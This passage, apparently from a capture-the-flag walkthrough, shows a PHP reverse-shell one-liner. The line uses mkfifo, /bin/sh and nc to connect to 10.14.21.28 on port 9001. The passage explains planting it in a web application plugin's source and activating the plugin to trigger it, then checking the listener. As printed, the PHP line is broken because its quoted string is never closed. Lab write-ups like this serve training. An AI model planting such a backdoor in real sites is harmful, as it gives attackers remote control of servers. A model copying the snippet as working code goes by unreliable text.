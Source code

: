 We can simply add this on top:

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.21.28 9001 >/tmp/f);?>
```


![Pasted image 20250617155345.png](../../IMAGES/Pasted%20image%2020250617155345.png)



Save it and now we need to trigger it:

![Pasted image 20250617155131.png](../../IMAGES/Pasted%20image%2020250617155131.png)

To trigger it, we need to go to `Installed Plugins` and activate it:


![Pasted image 20250617155159.png](../../IMAGES/Pasted%20image%2020250617155159.png)

If we check our listener:

![Pasted image 20250617155405.png](../../IMAGES/Pasted%20image%2020250617155405.png)
